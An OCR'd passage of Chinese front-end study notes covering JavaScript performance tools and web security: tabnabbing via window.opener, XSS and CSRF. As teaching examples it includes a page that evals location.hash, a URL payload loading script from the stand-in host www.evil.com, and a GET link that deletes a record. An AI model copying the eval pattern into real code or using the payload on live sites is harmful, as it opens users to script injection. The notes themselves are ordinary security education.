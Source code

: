    - 辅助工具 PageSpeed YSlow jsPerf

    - JavaScript性能测试库 JSLitmus

```javascript
$( document ).bind("click", function( e ) {
    $( e.target ).closest("li").toggleClass("hilight");
});
```

# JS 高安全性

- 乌云网 - 国内著名的漏洞报告平台
- 黑客攻击网站的主要手段有

  - SQL注入
  - 网络钓鱼
  - 跨站攻击
  - 拒绝服务攻击

- 打开链接都有坑 <https://juejin.im/entry/59f97d3851882558513203d9>

  - 如果是a标签要在新窗口中打开，添加noopener属性
  - 如果是js中打开新窗口，手动将新窗口的opener置为null

```javascript
打开的页面地址是固定的？直接a标签加上target="_blank"属性搞定。
打开的页面地址是动态计算的？使用js进行window.open(url)搞定。

var otherWindow = window.open();
otherWindow.opener = null;
otherWindow.location = 'http://newurl';
```

- 攻击网站前端的方法

  - XSS 跨站点脚本攻击

    - 同源策略没有限制页面中加载第三方的脚本
    - 尽一切方法在目标网站上执行非目标网站上原有的脚本

```javascript
<script>
    eval(location.hash.substr(1));
</script>

http://host/test.html#document.write("<script/src=//www.evil.com/evil.com/evil/js></script>")
`
```

- CSRF 跨站点请求伪造 请求来源于其他网站

```javascript
http:www.a.com/del?id=21
```

- 界面操作劫持
